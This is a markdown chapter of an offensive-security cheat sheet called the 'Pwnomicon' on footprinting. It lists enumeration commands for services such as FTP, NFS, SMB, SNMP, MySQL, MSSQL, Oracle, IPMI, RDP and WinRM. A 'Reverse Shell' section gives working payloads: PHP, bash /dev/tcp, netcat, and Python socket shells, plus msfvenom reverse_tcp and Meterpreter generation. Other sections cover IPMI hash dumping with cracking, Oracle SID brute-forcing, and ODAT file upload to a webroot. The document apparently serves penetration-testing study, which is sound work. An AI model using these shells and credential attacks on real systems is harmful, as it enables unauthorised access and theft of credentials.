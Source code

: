 # 🕵️ Footprinting

In this chapter of the Pwnomicon, we unveil rituals of passive and active reconnaissance — spells to trace the outlines of distant targets, enumerate domains whispered through DNS, and commune with services lurking in the void.

> *“Before breaching the gates, one must first map the dreamscape.”*

---

<details>
<summary><strong>🌐 Certificate Transparency + IP Resolution + Shodan</strong></summary>

Subdomain discovery via [crt.sh](https://crt.sh), followed by DNS resolution and Shodan fingerprinting.

```bash
# Initialize Shodan
shodan init <APIKEY>

# Extract subdomains from Certificate Transparency logs
curl -s "https://crt.sh/?q=<DOMAIN>&output=json" | jq -r '.[].name_value' | \
awk '{gsub(/\\n/,"\n")}1' | sort -u | grep -v "CN=" > subdomainlist.txt

# Resolve IPs for discovered subdomains
for i in $(cat subdomainlist.txt); do 
  host "$i" | grep "has address" | grep "<DOMAIN>" | cut -d" " -f4 >> ip-addresses.txt
done

# Perform Shodan footprinting
for i in $(cat ip-addresses.txt | sort -u); do 
  shodan host "$i"
done
```

</details>

---

<details>
<summary><strong>📶 CIDR Discovery Script</strong></summary>

**Identify IP ranges and scan for live hosts using a custom script**

```bash
# This script automates the process of identifying the CIDR block for a given IP,
# pings all IPs in the range, and resolves IPs for a target domain.
# It supports argument validation and automation for efficient network mapping.
```

### Key steps:
1. Validate input arguments
2. Identify CIDR block for a given IP
3. Ping all IPs in the range
4. Resolve IPs for a target domain
5. Support options and automation

**Script**: [`CIDR.sh`](../scripts/footprinting/CIDR.sh)

</details>
 
---

<details>
<summary><strong>📦 FTP</strong></summary>

**Scan FTP service**

```bash
# Scans the target for FTP (port 21), detects service/version, runs default scripts, and enables aggressive scan options.
nmap -sV -p21 -sC -A <IP>
```

**Enumerate FTP settings and anonymously download files**

```bash
# Shows the FTP server configuration, excluding comments.
cat /etc/vsftpd.conf | grep -v "#"

# Lists users who are denied FTP access.
cat /etc/ftpusers

# Recursively downloads all files from the FTP server using the provided credentials.
wget -m --no-passive ftp://<USER>:<PASSWORD>@<IP>
```

**Service interaction**

```bash
# Connects to the FTP service using Netcat for manual interaction.
nc -nv <IP> <PORT>

# Connects to the FTP service using Telnet.
telnet <IP> <PORT>

# Initiates an SSL/TLS connection to the FTP service for encrypted communication.
openssl s_client -connect <IP>:<PORT> -starttls ftp
```

</details>

---

<details>
<summary><strong>📁 NFS</strong></summary>

**Scan NFS service**

```bash
# Scans for NFS-related ports and runs default scripts.
sudo nmap <IP> -p111,2049 -sV -sC

# Runs all NFS-related NSE scripts for deeper enumeration.
sudo nmap --script nfs* <IP> -sV -p111,2049
```

**Service interaction**

```bash
# Lists available NFS shares exported by the server.
showmount -e <IP>

# Mounts the NFS share locally for browsing.
mkdir target-NFS
sudo mount -t nfs <IP>:/ ./target-NFS/ -o nolock
cd target-NFS

# Shows directory structure.
tree .

# Lists contents with numeric user/group IDs.
ls -l -n mnt/nfs/

# Unmounts the NFS share.
sudo umount ./target-NFS
```

</details>
 
---

<details>
<summary><strong>🧩 SMB</strong></summary>

**Scan SMB service**

```bash
# Scans for SMB ports, detects service/version, and runs default scripts.
sudo nmap <IP> -sV -sC -p139,445
```

**Analyze shared folders and user access**

```bash
# Shows Samba configuration, excluding comments and semicolons.
cat /etc/samba/smb.conf | grep -v "#\|\;"

# Restarts the Samba service after making changes.
sudo systemctl restart smbd

# Lists available SMB shares without authentication.
smbclient -N -L //<IP>
```

### Tools:
- [`samrdump.py`](../scripts/footprinting/samrdump.py): Dumps SAMR information from Windows hosts.
- [SMBMap](https://github.com/ShawnDEvans/smbmap): Enumerates SMB shares and permissions.
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec): Swiss army knife for pentesting networks.
- [Enum4Linux-ng](https://github.com/cddmp/enum4linux-ng): Next-gen SMB enumeration tool.

```bash
# Install Enum4Linux-ng for advanced SMB enumeration.
git clone https://github.com/cddmp/enum4linux-ng.git
cd enum4linux-ng
sudo cp enum4linux-ng.py /usr/local/bin/enum4linux-ng
sudo chmod +x /usr/local/bin/enum4linux-ng
enum4linux-ng -h
```

</details>
 
---

<details>
<summary><strong>📧 SMTP</strong></summary>

**Scan SMTP service**

```bash
# Scans for SMTP on port 25, runs default scripts, and detects service/version.
sudo nmap <IP> -sC -sV -p25

# Checks if the SMTP server is an open relay.
sudo nmap <IP> -p25 --script smtp-open-relay -v
```

**Get configuration file**

```bash
# Displays the Postfix configuration file, excluding comments and empty lines.
cat /etc/postfix/main.cf | grep -v "#" | sed -r "/^\s*$/d"
```

**Service interaction**

```bash
# Connects to the SMTP service for manual interaction and banner grabbing.
telnet <IP> <PORT>
```

</details>

---

<details>
<summary><strong>📨 IMAP POP3</strong></summary>

**Scan IMAP and POP3 services**

```bash
# Scans for IMAP and POP3 services, runs default scripts and capability checks.
sudo nmap <IP> -sV -p 110,143,993,995 -sC --script pop3-capabilities,imap-capabilities
```

**Service interaction**

```bash
# Connects to IMAPS using curl.
curl -k 'imaps://<IP>' --user <USER>:<PASSWORD>

# Connects to POP3S using OpenSSL.
openssl s_client -connect <IP>:pop3s

# Connects to IMAPS using OpenSSL.
openssl s_client -connect <IP>:imaps
```

</details>

---

<details>
<summary><strong>📡 SNMP</strong></summary>

**Footprinting SNMP service**

```bash
# Walks the SNMP tree using the provided community string.
snmpwalk -v2c -c <COMMUNITYSTRING> <IP>

# Scans for SNMP using a wordlist of community strings.
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt <IP>
```

**Get configuration file**

```bash
# Displays the SNMP daemon configuration, excluding comments and empty lines.
cat /etc/snmp/snmpd.conf | grep -v "#" | sed -r '/^\s*$/d'
```

</details>

---

<details>
<summary><strong>🛢️ MySQL</strong></summary>

**Scan MySQL service**

```bash
# Scans for MySQL service, detects version, and runs MySQL NSE scripts.
sudo nmap <IP> -sV -sC -p3306 --script mysql*
```

**Get configuration file**

```bash
# Displays the MySQL server configuration, excluding comments and empty lines.
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

**Service interaction**

```bash
# Connects to MySQL without a password.
mysql -u <USER> -h <IP>

# Connects to MySQL using a password.
mysql -u <USER> -p<PASSWORD> -h <IP>
```

</details>

---

<details>
<summary><strong>💾 MSSQL</strong></summary>

**Scan MSSQL service**

```bash
# Runs multiple Nmap scripts for MSSQL enumeration and checks for weak credentials.
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

**MSSQL Ping in Metasploit**

```bash
# Uses Metasploit to check if the MSSQL service is alive.
msf6 > use auxiliary/scanner/mssql/mssql_ping
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts <IP>
msf6 auxiliary(scanner/mssql/mssql_ping) > run
```

**Service interaction**

```bash
# Connects to MSSQL using the Impacket mssqlclient.py script.
python3 mssqlclient.py Administrator@<IP> -windows-auth
```

</details>

---

<details>
<summary><strong>🐚 Reverse Shell</strong></summary>

**PHP**
```php
# PHP reverse shell using bash over TCP.
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"); ?>
```

**BASH**
```bash
# Bash reverse shell over TCP.
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

# Bash reverse shell over UDP.
bash -i >& /dev/udp/<IP>/<PORT> 0>&1
```

**Netcat**
```bash
# Netcat reverse shell.
nc -e /bin/sh <IP> <PORT>
```

**Python**
```bash
# Python reverse shell using socket and subprocess.
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Metasploit**
```bash
# Generate various reverse shell payloads with msfvenom.
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Meterpreter**
```bash
# Generate Meterpreter reverse shell payloads with msfvenom.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Spawn TTY**
```bash
# Upgrade a shell to a fully interactive TTY.
python3 -c 'import pty; pty.spawn("/bin/bash"); import os; os.putenv("TERM", "xterm"); os.system("export SHELL=/bin/bash");'
export TERM=xterm
```

</details>

---

<details>
<summary><strong>🔐 SSH</strong></summary>

**Scan with SSH-Audit**
```bash
# Clones and runs SSH-Audit to enumerate SSH configuration and security.
git clone https://github.com/jtesta/ssh-audit.git && cd ssh-audit
./ssh-audit.py <IP>
```

**Get configuration file**
```bash
# Displays the SSH daemon configuration, excluding comments and empty lines.
cat /etc/ssh/sshd_config  | grep -v "#" | sed -r '/^\s*$/d'
```

**Service interaction**
```bash
# Connects to SSH using a username and password.
ssh <USER>@<ip>

# Connects to SSH using a private key.
ssh -i id_rsa <USER>@<ip>
```

**Port Forwarding**
```bash
# Forwards a local port to a remote host/port via SSH.
ssh -L <LPORT>:<RHOST>:<RPORT> <USER>@<IP>
```

</details>

---

<details>
<summary><strong>🧰 Oracle TNS</strong></summary>

**Scan TNS service**

```bash
# Scans for Oracle TNS service and attempts SID brute-forcing.
sudo nmap -p1521 -sV <IP> --open
sudo nmap -p1521 -sV <IP> --open --script oracle-sid-brute
```

**Oracle-Tools**

# See the setup script for installing Oracle tools.
[`Oracle-Tools-setup.sh`](../scripts/footprinting/Oracle-Tools-setup.sh)

**Testing ODAT**

```bash
# Runs all ODAT modules against the Oracle server.
./odat.py all -s <IP>
```

**SQLplus Login**
```bash
# Connects to Oracle using SQLplus.
sqlplus <USER>/<PASS>@<IP>/XE
sqlplus <USER>/<PASS>@<IP>/XE as sysdba
```

**Fix SQLplus Library Path**
```bash
# Fixes library path issues for SQLplus.
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf"
sudo ldconfig
```

**File Upload with Oracle**
```bash
# Uploads a file to the Oracle server using ODAT.
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s <IP> -d XE -U user -P password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

**Download Uploaded File**
```bash
# Downloads the uploaded file via HTTP.
curl -X GET http://<IP>/testing.txt
```

</details>

---

<details>
<summary><strong>🖥️ IPMI</strong></summary>

**Scan with Nmap**
```bash
# Scans for IPMI version using Nmap UDP script.
sudo nmap -sU --script ipmi-version -p 623 <IP>
```

**Scan with Metasploit**
```bash
# Uses Metasploit to enumerate IPMI version.
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 > set rhosts <IP>
msf6 > show options
msf6 > run
```

**Dump Hashes**
```bash
# Dumps IPMI password hashes using Metasploit.
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 > set rhosts <IP>
msf6 > run
```

**Crack IPMI Hashes HP iLO using a factory default password**
```bash
# Cracks IPMI hashes using hashcat and a brute-force mask.
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

</details>

---

<details>
<summary><strong>➡️ RDP</strong></summary>

**Scan with Nmap**
```bash
# Scans for RDP service and runs RDP-related NSE scripts.
nmap -sV -sC -n <IP> -p3389 --disable-arp-ping --script rdp*
```

**RDP Security Check**

```bash
# Uses rdp-sec-check to enumerate RDP security settings.
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
./rdp-sec-check.pl <IP>
```

**Service interaction**
```bash
# Connects to RDP using xfreerdp.
xfreerdp /u:<USER> /p:"<PASSWORD>" /v:<IP>
```

</details>

---

<details>
<summary><strong>🔗 Windows Remote Management Protocols</strong></summary>

**WinRM**

**Scan with Nmap**
```bash
# Scans for WinRM service on ports 5985 and 5986.
nmap -sV -sC <IP> -p5985,5986 --disable-arp-ping -n
```

**Service interaction**
```bash
# Connects to WinRM using evil-winrm.
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
```

**Windows Management Instrumentation (WMI)**

**Footprinting the service**
```bash
# Executes a command on the remote host using WMI via Impacket.
usr/share/doc/python3-impacket/examples/wmiexec.py <USER>:"<PASSWORD>"@<IP> "hostname"
```

</details>

---

📘 **Next step:** Continue with [INFORMATION GATHERING](./02-information-gathering.md)
